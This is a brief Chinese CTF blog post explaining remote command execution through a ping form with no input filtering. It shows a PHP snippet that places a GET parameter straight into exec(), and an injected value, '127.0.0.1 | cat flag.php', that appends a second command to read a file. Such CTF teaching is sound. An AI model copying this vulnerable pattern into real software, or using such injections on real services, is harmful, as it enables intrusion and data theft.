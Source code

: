 ```yaml
---
layout: post
title: "ctfrce无过滤"
date:   2024-10-20
tags: ctf
comments: true
author: jjcjgo
---
```




来讲一下rce的题目     


这是一个ping命令题目
‘<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}

?>’
这时候就要用到管道符 | ，|| ，& 
一般用|因为不会执行前面的命令

使用ping 127.0.0.1 | cat flag.php 发现没有回显    
 
有两种方法解决
1种是看源码一般在源码里另一种是用flag.php|base64编码成base64就有回显了
